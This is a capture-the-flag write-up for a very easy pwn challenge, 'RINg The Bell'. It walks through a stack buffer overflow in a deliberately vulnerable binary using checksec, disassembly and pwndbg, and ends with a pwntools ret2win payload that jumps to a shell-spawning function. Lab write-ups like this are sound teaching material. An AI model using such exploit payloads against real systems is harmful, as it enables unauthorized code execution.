

    	    <font size="10">RINg The Bell</font>

​		15<sup>th</sup> April 2026 

​		Prepared By: w3th4nds

​		Challenge Author(s): w3th4nds

​		Difficulty: <font color=green>Very Easy</font>

​		Classification: Official

 


# Synopsis

RINg The Bell is a very easy difficulty challenge that features ret2win.

# Description

Crownspire's fire-watch has one bell pattern that clears a street faster than any order could: three short tolls, a pause, then two long ones, the call for a granary fire, when every free hand is expected to run for water instead of standing post. Rin got the pattern out of a watchman who'd had one drink too many. She doesn't need the gate garrison dead or even distracted for long, just gone, for exactly as long as it takes Keir's wagon to cross from the tannery gate to the river road with cargo nobody's supposed to see.

The door to the bell tower wasn't built to keep strangers out. It was built to keep whoever's already inside from leaving on their own terms, which tells her plenty about who usually comes through here. She has one chance to get past it before that wagon reaches the river road. Get the pattern wrong, or ring it a beat late, and every guard in earshot will know there's no fire while Keir's cargo sits exposed in the open street. Breach the lock, climb to the bell, and ring the toll exactly as she memorized it, then get out before anyone starts asking why the granary isn't burning.

## Skills Required

- Basic C

## Skills Learned

- ret2win

# Enumeration

First of all, we start with a `checksec`:  

```console
pwndbg> checksec
RELRO:      Full RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
SHSTK:      Enabled
IBT:        Enabled
Stripped:   No
```

### Protections 🛡️

As we can see:

| Protection | Enabled  | Usage   | 
| :---:      | :---:    | :---:   |
| **Canary** | ❌       | Prevents **Buffer Overflows**  |
| **NX**     | ✅       | Disables **code execution** on stack |
| **PIE**    | ❌       | Randomizes the **base address** of the binary | 
| **RelRO**  | **Full** | Makes some binary sections **read-only** |

The program's interface 



### Disassembly

Starting with `main()`:

```c
0040179b  int32_t main(int32_t argc, char** argv, char** envp)

0040179b  {
004017b1      puts(&data_402070);
004017c5      info("Rin! Ring the bell to call for r…", 0);
004017d4      fflush(__TMC_END__);
004017d9      int64_t buf;
004017d9      __builtin_memset(&buf, 0, 0x20);
0040180a      read(0, &buf, 0x60);
0040181e      info("D-d-did they hear us..?\n", 0);
00401829      return 0;
0040179b  }
```

The bug is pretty obvious here: `buf` is `0x20` bytes and `read` reads up to `0x60` bytes, leading in a massive Buffer Overflow.

### Debugging 

Now we are going to find the overflow offset to overwrite the return address.

```gdb
pwndbg> cyclic 200
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaa
<SNIP>
────────────────────────────[ STACK ]────────────────────────────
00:0000│ rsp 0x7fffffffd958 ◂— 0x6161616161616166 ('faaaaaaa')
01:0008│     0x7fffffffd960 ◂— 0x6161616161616167 ('gaaaaaaa')
02:0010│     0x7fffffffd968 ◂— 0x6161616161616168 ('haaaaaaa')
03:0018│     0x7fffffffd970 ◂— 0x6161616161616169 ('iaaaaaaa')
04:0020│     0x7fffffffd978 ◂— 0x616161616161616a ('jaaaaaaa')
05:0028│     0x7fffffffd980 ◂— 0x616161616161616b ('kaaaaaaa')
06:0030│     0x7fffffffd988 ◂— 0x616161616161616c ('laaaaaaa')
07:0038│     0x7fffffffd990 ◂— 1
──────────────────────────[ BACKTRACE ]──────────────────────────
 ► 0         0x401829 main+142
   1 0x6161616161616166
   2 0x6161616161616167
   3 0x6161616161616168
   4 0x6161616161616169
   5 0x616161616161616a
   6 0x616161616161616b
   7 0x616161616161616c
<SNIP>
pwndbg> cyclic -o faaaaaaa
Finding cyclic pattern of 8 bytes: b'faaaaaaa' (hex: 0x6661616161616161)
Found at offset 40
```

We found the offset at `40` bytes. Now if take a better look at the binary, we see that there is a `bell()` function that spawns shell. The only thing that's missing, is to find its address to call it. We are going to use `pwntools` to do this dynamically. The payload looks like this:

```python
r.sendline(b'w3th4nds' * 5 + p64(e.sym.bell))
```
